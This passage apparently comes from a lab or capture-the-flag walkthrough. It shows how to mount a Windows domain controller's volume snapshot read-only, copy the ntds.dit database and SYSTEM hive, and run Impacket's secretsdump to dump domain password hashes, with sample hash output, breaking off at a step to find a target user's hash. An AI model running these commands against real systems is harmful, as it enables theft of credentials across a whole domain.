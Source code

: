 ### Step 9: Mount the Windows Volume

Mount the NTFS volume in read-only mode:

```bash
sudo mount -o ro /dev/xvdf1 /mnt/dc-snapshot
```

**Verify mount:**
```bash
ls -la /mnt/dc-snapshot/
```

You should see typical Windows directories: `Windows/`, `Program Files/`, `Users/`, etc.

### Step 10: Extract Critical Files

Copy the NTDS database and SYSTEM registry hive:

```bash
# Copy NTDS database
sudo cp /mnt/dc-snapshot/Windows/NTDS/ntds.dit ~/ntds.dit

# Copy SYSTEM registry hive
sudo cp /mnt/dc-snapshot/Windows/System32/config/SYSTEM ~/SYSTEM

# Change ownership to current user
sudo chown $USER:$USER ~/ntds.dit ~/SYSTEM

# Verify files were copied
ls -la ~/ntds.dit ~/SYSTEM
```

### Step 11: Extract Password Hashes

Use Impacket's secretsdump to extract all password hashes:

```bash
impacket-secretsdump -system ~/SYSTEM -ntds ~/ntds.dit local -outputfile secrets
```

**Expected Output:**
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x1e357782858dd409eef7119ae2ec414b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 14218b7bc92973ca87550cfc6db2b0ac
[*] Reading and decrypting hashes from /home/kali/ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a9292c257e3ba955ec53996b689268de:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
EC2AMAZ-9GMMSQ6$:1000:aad3b435b51404eeaad3b435b51404ee:713338155fec84a6dc24f383f11ace55:::
```

### Step 12: Find the Target User Hash
